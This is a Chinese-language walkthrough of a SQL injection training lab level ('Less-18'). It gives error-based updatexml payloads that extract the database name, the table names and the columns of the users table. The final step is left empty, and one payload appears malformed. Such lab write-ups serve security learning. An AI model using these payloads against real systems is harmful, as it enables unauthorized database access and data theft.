





# Less - 18

---

# 通关教程

---

## 1、判断注入

---

输入用户名和密码以后，我们发现屏幕上回显了我们的IP地址和我们的User Agent

​​

我们发现输入'时系统报错，证明有SQL注入漏洞，这里有完整的错误回显，根据错误回显我们判断闭合方式为'#，并且为字符型注入，所以我们利用报错注入攻击

​​

---

## 2、查看数据库

---

```html
'and updatexml(1,concat(0x7e,(database())),0x7e),1)-- #
```

​​

---

## 3、查看数据表

---

```html
' and updatexml(1,concat('~',substr((select group_concat(table_name) from information_schema.tables where table_schema='security'),1,31)),3) and '
```

​​

---

## 4、查看字段

---

```html
' and updatexml(1,concat('~',substr((select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),1,31)),3) and '
```

​​

---

## 5、查看字段值

---

```
```

​​
